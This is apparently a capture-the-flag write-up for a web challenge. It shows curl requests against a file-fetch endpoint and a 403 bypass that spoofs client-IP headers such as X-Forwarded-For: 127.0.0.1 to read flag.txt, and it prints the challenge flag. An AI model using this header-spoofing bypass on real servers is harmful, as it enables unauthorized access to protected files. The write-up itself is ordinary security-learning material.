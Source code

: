**Flag:** `KCTF{kud05w3lld0n3!}`

We go the link and quickly figure out the input to the text box involves a GET request to the server.

```
~/Downloads $ curl -X 'GET' "http://66.228.53.87:8989/fetch?file=text.txt"
{"result":"Yes! You can read files! Dont ask for hint its ezz!!"}
```

Trying it on `flag.txt` however, gives us an error.

```
~/Downloads $ curl -X 'GET' "http://66.228.53.87:8989/fetch?file=flag.txt"
{"result":"403 Access Denied"}
```

Looking around, I found a few resources to help me get through this error. [One](https://sapt.medium.com/bypassing-403-protection-to-get-pagespeed-admin-access-822fab64c0b3) said to include headers with the value `127.0.0.1` to bypass the error.

Using these headers in the `curl` command, we then successfully get the flag.

```
~ $ curl -H 'X-Originating-IP: 127.0.0.1' \
     -H 'X-Forwarded-For: 127.0.0.1' \
     -H 'X-Forwarded: 127.0.0.1' \
     -H 'Forwarded-For: 127.0.0.1' \
     -H 'X-Remote-IP: 127.0.0.1' \
     -H 'X-Remote-Addr: 127.0.0.1' \
     -H 'X-ProxyUser-Ip: 127.0.0.1' \
     -H 'X-Original-URL: 127.0.0.1' \
     -H 'Client-IP: 127.0.0.1' \
     -H 'True-Client-IP: 127.0.0.1' \
     -H 'Cluster-Client-IP: 127.0.0.1' \
     -H 'X-ProxyUser-Ip: 127.0.0.1' \
     -H 'Host: localhost' \
     -X 'GET' "http://66.228.53.87:8989/fetch?file=flag.txt"
{"result":"KCTF{kud05w3lld0n3!}"}
```


